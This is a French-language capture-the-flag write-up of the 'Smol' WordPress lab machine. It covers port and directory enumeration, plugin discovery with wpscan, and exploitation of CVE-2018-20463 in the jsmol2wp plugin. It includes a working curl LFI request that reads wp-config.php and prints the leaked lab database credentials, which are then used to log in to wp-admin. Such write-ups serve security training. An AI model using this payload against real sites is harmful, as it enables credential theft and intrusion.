








Description 

At the heart of **Smol** is a WordPress website, a common target due to its extensive plugin ecosystem. The machine showcases a publicly known vulnerable plugin, highlighting the risks of neglecting software updates and security patches. Enhancing the learning experience, Smol introduces a backdoored plugin, emphasizing the significance of meticulous code inspection before integrating third-party components.

Quick Tips: Do you know that on computers without GPU like the AttackBox, is faster than **Hashcat**?

Enumération 

- Scan de ports et service 

```
nmap -sC -sV 10.128.177.40
```

Résultat

On a 



Modifier le fichier etc/hosts 

```
sudo nano /etc/hosts
```

Puis ajouter 



Acceder a la page web 

Loraqu'on defile on remaque a la fin que le site a été codé avec wordpress acec ce message 
**Proudly powered by Wordpress**



Loreaqu'on inspecte egalement le code source on remarque des liens pointant vers les dossiers comme /wp-content 



Enumération des répertoire caché 
```
gobuster dir -u http://www.smol.thm/ -w /usr/share/wordlists/dirb/common.txt
```

Résultat 
On a le wp-admin, wp-includes et wp-content



Donc nous allons utilise rl'outil wpscan pour identifier les plugins et thems utilisés par le site 

```
wpscan --url http://www.smol.thm --enumerate p
```

Plugin identifié jsmol2wp avec la version 1.07



Après les recherches on remarque que ce plugin contient une  vulnérabilité SSRF et LFI (CVE-2018-20463) qui nous permettra de lire les  fichiers sur le serveur 

La vulnérabilité **CVE-2018-20463** présente dans le plugin **JSmol2WP (version 1.07)** est une faille de type **LFI** (Local File Inclusion / Lecture de fichiers locaux) et **SSRF** (Server-Side Request Forgery).

Elle se produit parce que le code du plugin fait aveuglément confiance à ce que l'utilisateur envoie dans l'URL, sans vérifier ni nettoyer les données.

Explication de la vulnérabilité 

Exploitation de cette vulnérabilité 

Nous allons exploiter cette vulnérabilité LFI pour lire les fichiers de configuration wp-config.php 

```
curl 'http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php'

```

Boom on a les configs
```

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

```



Maintenant qu'on à les identifiants nous  allons nous connecter à la page admin de wordpress /wp-admin

```
Username: wpuser
Password: kbLSF2Vop#lw3rjDZ629*Z%G
```


